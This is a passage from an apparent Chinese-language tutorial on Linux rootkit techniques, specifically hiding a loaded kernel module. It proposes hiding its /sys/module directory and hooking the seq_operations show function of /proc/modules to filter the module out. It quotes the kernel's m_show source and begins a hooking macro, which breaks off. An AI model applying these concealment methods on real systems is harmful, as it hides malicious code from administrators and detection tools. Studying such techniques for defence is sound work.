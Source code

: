 对于第一种，我们可以简单地使用隐藏文件的方式将它隐藏掉（这里是隐藏以模块名为名的目录），方法参照`00022`一节。里边的`ROOT_PATH`替换成`/sys/module`即可。

对于第二种，由于信息是在一个文件`modules`中，我们如果隐藏这个文件的话太过可疑。所以，这里采用`00024`隐藏端口的思路，钩掉对应`show`函数，过滤掉我们的模块信息。

原版`show`函数如下：

{% highlight c %}
// kernel/module.c
static int m_show(struct seq_file *m, void *p)
{
	struct module *mod = list_entry(p, struct module, list);
	char buf[MODULE_FLAGS_BUF_SIZE];

	/* We always ignore unformed modules. */
	if (mod->state == MODULE_STATE_UNFORMED)
		return 0;

	seq_printf(m, "%s %u",
		   mod->name, mod->init_layout.size + mod->core_layout.size);
	print_unload_info(m, mod);

	/* Informative for users. */
	seq_printf(m, " %s",
		   mod->state == MODULE_STATE_GOING ? "Unloading" :
		   mod->state == MODULE_STATE_COMING ? "Loading" :
		   "Live");
	/* Used by oprofile and other similar tools. */
	seq_printf(m, " 0x%pK", mod->core_layout.base);

	/* Taints info */
	if (mod->taints)
		seq_printf(m, " %s", module_flags(mod, buf));

	seq_puts(m, "\n");
	return 0;
}
/* Format: modulename size refcount deps address

   Where refcount is a number or -, and deps is a comma-separated list
   of depends or -.
*/
static const struct seq_operations modules_op = {
	.start	= m_start,
	.next	= m_next,
	.stop	= m_stop,
	.show	= m_show
};
{% endhighlight %}

下面是用来钩取`show`的宏：

{% highlight c %}
# define set_file_seq_op(opname, path, new, old)                    \
    do {                                                            \
        struct file *filp;                                          \
        struct seq_file *seq;                                       \
        struct seq_operations *seq_op;                              \
                                                                    \
        printk("Opening the path: %s.\n", path);                  \
        filp = filp_open(path, O_RDONLY, 0);                        \
        if (IS_ERR(filp)) {                                         \
            printk("Failed to open %s with error %ld.\n",         \
                     path, PTR_ERR(filp));                          \
            old = NULL;                                             \
        } else {                                                    \
            printk("Succeeded in opening: %s\n", path);           \